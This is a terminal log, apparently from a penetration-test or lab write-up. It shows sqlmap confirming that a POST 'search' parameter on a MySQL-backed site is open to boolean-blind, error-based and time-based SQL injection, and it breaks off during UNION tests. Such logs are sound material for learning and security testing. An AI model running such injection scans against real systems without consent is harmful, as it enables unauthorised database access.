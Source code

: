 ```bash
$ sqlmap -r search.req
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:32:45 /2022-08-25/

[14:32:45] [INFO] parsing HTTP request from 'search.req'
[14:32:45] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:32:45] [INFO] testing connection to the target URL
[14:32:45] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:32:46] [INFO] testing if the target URL content is stable
[14:32:46] [INFO] target URL content is stable
[14:32:46] [INFO] testing if POST parameter 'search' is dynamic
[14:32:46] [WARNING] POST parameter 'search' does not appear to be dynamic
[14:32:46] [INFO] heuristic (basic) test shows that POST parameter 'search' might be injectable (possible DBMS: 'MySQL')
[14:32:46] [INFO] heuristic (XSS) test shows that POST parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[14:32:46] [INFO] testing for SQL injection on POST parameter 'search'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[14:32:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:32:55] [WARNING] reflective value(s) found and filtering out
[14:32:56] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:32:56] [INFO] testing 'Generic inline queries'
[14:32:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:32:59] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:33:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[14:33:02] [INFO] POST parameter 'search' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --string="result")
[14:33:02] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:33:02] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[14:33:02] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[14:33:02] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[14:33:02] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[14:33:02] [INFO] POST parameter 'search' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[14:33:02] [INFO] testing 'MySQL inline queries'
[14:33:02] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[14:33:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[14:33:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:33:13] [INFO] POST parameter 'search' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[14:33:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:33:13] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
```